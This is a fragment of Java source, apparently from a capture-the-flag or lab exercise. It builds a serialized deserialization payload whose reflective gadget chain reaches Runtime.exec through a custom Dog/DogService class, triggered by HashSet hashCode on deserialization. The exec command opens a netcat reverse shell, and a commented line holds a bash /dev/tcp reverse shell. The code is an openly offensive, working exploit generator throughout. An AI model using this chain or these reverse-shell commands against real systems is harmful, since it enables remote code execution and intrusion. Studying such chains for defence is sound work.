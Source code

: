```java
    }

    private static void setDogField(Dog d, String name, Object value) {
        try {
            Field f = Dog.class.getDeclaredField(name);
            f.setAccessible(true);
            f.set(d, value);
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }

    private static Dog makeDog(int id, Object obj, String method, Class<?>[] types, Object[] args) {
        Dog d = new Dog(id, "d" + id, "cat", 114514);
        setDogField(d, "object", obj);
        setDogField(d, "methodName", method);
        setDogField(d, "paramTypes", types);
        setDogField(d, "args", args);
        return d;
    }

    public static void main(String[] args) throws Exception {
        // String[] rsCmd = new String[]{"bash", "-c", "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"};
        String[] rsCmd = new String[]{"nc", "127.0.0.1", "5000", "-e", "/bin/sh"};

        // 4-step reflective chain executed by DogService.chainWagTail()
        Dog d1 = makeDog(1, Class.class, "forName",
                new Class<?>[]{String.class}, new Object[]{"java.lang.Runtime"});
        Dog d2 = makeDog(2, null, "getMethod",
                new Class<?>[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[] {}});
        Dog d3 = makeDog(3, null, "invoke",
                new Class<?>[]{Object.class, Object[].class}, new Object[]{null, new Object[] {}});
        Dog d4 = makeDog(4, null, "exec",
                new Class<?>[]{String[].class}, new Object[]{rsCmd});

        Map<Integer, Dog> chain = new LinkedHashMap<>();
        chain.put(1, d1);
        chain.put(2, d2);
        chain.put(3, d3);
        chain.put(4, d4);

        // Embed the chain into a fresh DogService instance
        Class<?> svcCls = Class.forName("com.example.demo.Dog.DogService");
        Object svc = svcCls.getDeclaredConstructor().newInstance();
        Field fDogs = svcCls.getDeclaredField("dogs");
        fDogs.setAccessible(true);
        fDogs.set(svc, chain);

        // Trigger Dog: hashCode() -> wagTail(svc, "chainWagTail", ...) during HashSet deserialization
        Dog trigger = makeDog(0, svc, "chainWagTail", new Class<?>[]{}, new Object[]{});
        HashSet<Dog> set = new HashSet<>();
        set.add(trigger);

        System.out.println(b64(set));
    }
}
```

---